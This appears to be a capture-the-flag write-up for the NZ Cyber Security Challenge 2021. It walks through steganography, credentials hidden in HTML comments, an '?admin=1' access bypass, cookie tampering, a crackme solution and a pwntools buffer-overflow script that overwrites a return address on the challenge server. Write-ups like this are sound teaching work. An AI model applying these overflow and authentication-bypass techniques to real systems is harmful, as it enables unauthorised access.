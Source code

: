 # NZ Cyber Security Challange 2021

## Challenge 2
The challenge provides a picture of a scientist cleaning a black board. Steganography is used to hide the board's contents.

![Original image](chal2/Sunshine.jpg)

You can already see a little bit. Many tools can be used to reveal but I used Photoshop with its Blending feature.

![Modified image](chal2/Sunshine-unveiled.jpg)

And we got the flag:
```
flag{A2QB7G#MagnesiumChlorideHexahydrate000000}
```

## Challenge 3
A login form with username and password was given. A simple check on source code reveals the username and password in a commented section
```html
<!-- Username: dumbh4ck5 Password: XorIsNotSooS3cur3 -->
```
Enter the details in and the flag appears.
```
flag{KLY5FQ#Dibasicsodiumphosphatedihydrate000}
```

## Challenge 4
The page shows "EXTERMINATE CARLOS" with an image of a robot. I spent quite some time digging that image and got nothing out of it. Then after viewing the source code, I found
```html
<!-- Show only for admin -->
<div id="admin-panel"></div>
```
So we need to somehow prove that we are admin. I tried setting cookie but that didn't work so I tried adding a parameter in URL `?admin=1` and a link to Admin panel shows up.<br/>
The Admin panel page has Carlos and Bob names with delete buttons next to them. Exterminate Carlos and we got the flag
```
flag{R5D3SM#Heptadecan-9-yl0000000000000000000}
```

## Challenge 5
An executable file named "buff" was given along with a form to send some input to it on the server. Opening the file in Ghidra quickly shows a function called `helper` call `cat flag.txt` but the function itself isn't called anywhere.

![helper function](chal5/helper.jpg)

In `overflow` function, which is basicly `main`, we can see that we have a buffer-overflow here, we can use this to overwrite the return address to point to `helper` function.

![overflow](chal5/overflow.jpg)

The address can be obtained in different ways, I prefer pwntools because I will use python to send POST request to server anyway.

```py
#!/usr/bin/env python3

from pwn import *
import requests
import re

elf = ELF("./buff")

print("Found helper at: " + hex(elf.symbols['helper']))

payload = b"A" * 516 + p32(elf.symbols['helper'])

r = requests.post("https://r0.nzcsc.org.nz/challenge5/", data={"message": payload}, timeout=5)
print(re.search("flag{.*}", r.text).group())
```
or [here](chal5/payload.py)

516 bytes padding is the sweet spot here, following is the address of `helper`. The server may lag sometimes so just run the script again.

And the flag
```
flag{3cj2kx#4-hydroxybutylZanediyl000000000000}
```

## Challenge 6
A [crackme](chal6/crackme) file was given. It is an executable file so I threw it in Ghidra to have a look.<br/>
Here is the main function:<br/>
![Ghidra main function](chal6/ghidra.jpg)
1. First it checks the parameter we give to be exactly 16 chars
2. Call `checkMod()` function with a parameter substring, every 4 chars.
3. `checkMod()` will convert that 4 characters into integers and sum them up, for example, "AAAA" will be 41 + 41 + 41 + 41. After that, it checks if that sum is divisible by a given number - third parameter, which are `5, 2, 0xb = 11, 0x137 = 311`

After some tinkering with ASCII table, I came up with `FFFFBBBBBBBBPPPG`. Which can be explained:
```
FFFF = 70 + 70 + 70 + 70 = 280. % 5 = 0
BBBB = 42 + 42 + 42 + 42 = 168. % 2 = 0 and % 11 = 0
PPPG = 80 + 80 + 80 + 71 = 311. % 311 = 0
```
There are many combinations can work.

Passing that to the program and we got the flag:
```
./crackme FFFFBBBBBBBBPPPG
[+] You win!
[+] Here's your flag - Flag{B78YYB#N-ditetradecylacetamide00000000000}
```

## Challenge 10
It's the same login form as [Challenge 3](#Challenge%203) with 1 additional step: modifying a cookie value.<br/>
Change cookie `logged-in` from 0 to 1, then login with the same credentials will show the flag:
```
flag{3gSdzl#TromethamineHydrochloride000000000}
```